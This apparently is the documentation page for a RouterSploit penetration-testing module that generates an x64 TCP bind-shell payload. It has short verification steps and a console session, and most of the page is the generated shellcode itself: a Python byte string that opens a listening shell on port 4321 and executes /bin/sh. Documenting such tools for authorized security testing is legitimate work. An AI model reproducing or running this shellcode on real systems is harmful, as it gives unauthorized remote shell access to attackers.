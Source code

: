 ## Description

Module generates payload that creates interactive tcp bind shell for X64 architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/x64/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates x64 bind shell tcp payload

## Scenarios

```
rsf > use payloads/x64/bind_tcp
rsf (X64 Bind TCP) > set rport 4321
[+] rport => 4321
rsf (X64 Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
    "\xc7\x04\x24\x02\x00\x10\xe1\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
    "\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
    "\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
    "\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
    "\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
)
```
